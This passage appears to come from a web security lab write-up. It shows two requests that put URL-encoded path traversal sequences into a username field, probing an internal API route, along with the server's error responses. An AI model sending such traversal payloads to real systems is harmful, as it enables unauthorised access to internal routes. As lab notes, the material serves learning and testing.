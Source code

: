 input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=..%2f..%2f..%2f..%2f

![alt text](image-36.png)

output:
`{
  "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
}`

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=..%2f..%2f..%2f..%2fapi

![alt text](image-37.png)

output: {
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}
